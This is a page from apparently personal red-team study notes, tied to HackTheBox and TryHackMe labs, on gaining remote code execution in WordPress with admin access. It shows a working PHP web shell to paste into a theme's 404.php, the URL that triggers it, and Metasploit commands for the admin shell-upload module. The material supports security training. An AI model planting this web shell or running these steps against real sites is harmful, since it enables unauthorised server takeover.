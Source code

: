 # WordPress Admin RCE

[![hackingwordpress](../../../../../../cybersecurity/_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)
[![colddboxeasy](../../../../../../cybersecurity/_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../../../cybersecurity/_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)

<div class="row row-cols-lg-2"><div>

With sufficient privileges, it is possible to exploit a remote code execution (RCE) *vulnerability* on WordPress.

Since admins can modify templates, and templates are written in PHP, we can replace one of them with our code. For instance, a remote shell, meaning we would have a remote command execution (RCE).

Select `Appearance` then `Theme Editor`. Select a theme, preferably one that is not used to avoid breaking things.

Pick a non-critical file such as `404.php` and add to it a [web shell](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md) or directly use a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):
</div><div>

```php!
<?php
// add your webshell
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>";
// prevent the rest of the page from showing up
// ⚠️ it may not work, remove it if it doesn't
exit 0;
```

To execute it, aside from accessing an invalid URL which may highlighted in the logs, directly access the file from the theme folder:

```text!
https://<HOST>/wp-content/themes/<theme_name>/404.php
```
</div></div>

<hr class="sep-both">

## Metasploit Module

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md), but it's quite unreliable.

```shell!
$ msfconsole -q
msf6> use wp_admin_shell_upload
msf6> set USERNAME username
msf6> set PASSWORD password
msf6> set RHOSTS IP
msf6> set LHOST tun0
msf6> run
```
</div><div>

Some options you might want to set:

```shell!
msf6> set WPCHECK yes # may be false in some scenarios
msf6> set httptrace true
msf6> set TARGETURI /wordpress/
msf6> run
```

</div></div>
